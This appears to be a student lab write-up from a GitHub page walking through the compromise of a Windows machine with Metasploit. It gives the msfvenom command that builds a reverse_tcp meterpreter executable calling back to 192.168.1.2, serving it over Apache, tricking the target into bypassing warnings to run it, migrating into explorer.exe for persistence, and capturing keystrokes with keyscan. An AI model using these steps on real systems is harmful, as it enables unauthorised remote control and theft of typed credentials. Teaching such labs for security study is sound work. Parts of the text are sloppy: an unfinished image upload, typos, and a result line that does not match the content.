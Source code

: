### Date:
# Ex-6: Compromising-windows-using-Metasploit
### Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:

![1)](https://github.com/user-attachments/assets/f0805f25-2b83-464d-ab47-c4fc99414248)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT

![2)](https://github.com/user-attachments/assets/5ed26998-335c-4c81-b80d-e61daa7a50ce)


copy the fun.exe into the apache /var/www/html folder


![3)](https://github.com/user-attachments/assets/c2461816-5137-45aa-ab2d-366f1639fd2b)


Start apache server
sudo systemctl apache2 start

![4)](https://github.com/user-attachments/assets/502183a0-9ae5-4ce0-b799-d669e9ae954e)


Check the status of apache2

![5)](https://github.com/user-attachments/assets/0d8d0328-a39f-4795-b589-78643b301834)

Invoke msfconsole:
### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6)](https://github.com/user-attachments/assets/ea687bb8-b003-441e-a1f6-05c2ad35d12e)



set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7)](https://github.com/user-attachments/assets/8196bb53-4ddc-4e6a-8d33-99488787e379)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![8)](https://github.com/user-attachments/assets/2de61159-cad8-452d-a933-d07914aa418d)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![9)](https://github.com/user-attachments/assets/dc8de406-d4a3-440d-9966-f7578a524f33)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Uploading 10).png…]()



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![11)](https://github.com/user-attachments/assets/4098d1e3-0394-4012-b817-5bef3e99c744)


keyscan_dump	Shows the keystrokes captured so far

![12)](https://github.com/user-attachments/assets/7bb28d80-71b8-4664-a907-b8c9cd424fd3)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
